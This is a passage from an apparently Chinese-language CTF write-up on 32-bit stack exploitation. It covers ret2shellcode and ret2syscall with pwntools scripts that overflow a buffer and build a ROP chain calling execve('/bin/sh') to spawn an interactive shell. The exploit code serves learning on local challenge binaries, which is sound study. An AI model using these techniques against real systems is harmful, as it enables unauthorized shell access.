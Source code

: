```python
payload = shellcode.ljust(0x70, 'a') + p32(0x0804A080)

conn.sendline(payload)
conn.interactive()
```

虽然可以直接写到栈上，但栈地址经常变化，又找不到 "jmp esp" 这样的片段，倒是可以用 nop 滑一段距离，但还是感觉不稳定，果然有固定的地址比较好呀  


## ret2syscall
关键点就是在栈上构建 ROP 链，实现系统调用，也就是构造这个东西：  
```c
execve("/bin/sh",NULL,NULL)

其中，该程序是 32 位，所以我们需要使得

系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实指向 sh 的地址也可以
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0
```

然后要知道 `int 0x80` 就是 syscall，意思就是系统调用。  

按照惯例贴脚本，payload 就不解释了，有点简单：  
```python
# coding:utf8

'''
0x080bb196 : pop eax ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x080be408 : /bin/sh
0x08049421 : int 0x80

0xffffd2cc --> 0x804907a (<__libc_start_main+458>:	mov    DWORD PTR [esp],eax)
0xffffd25c --> 0x3
'''

from pwn import *


pop_eax_ret_addr = 0x080bb196
pop_edx_ecx_ebx_ret_addr = 0x0806eb90
bin_sh_addr = 0x080be408
int_addr = 0x08049421

conn = process('./ret2syscall')

# payload = 'a' * 0x70 + p32(pop_eax_ret_addr) + p32(0xb) + p32(pop_edx_ecx_ebx_ret_addr) + p32(0) + p32(0) + p32(bin_sh_addr) + p32(int_addr)
# 上面的 payload 很丑，用下面的
payload = flat(['a' * 0x70, pop_eax_ret_addr, 0xb, pop_edx_ecx_ebx_ret_addr, 0, 0, bin_sh_addr, int_addr])

conn.sendline(payload)
conn.interactive()
```
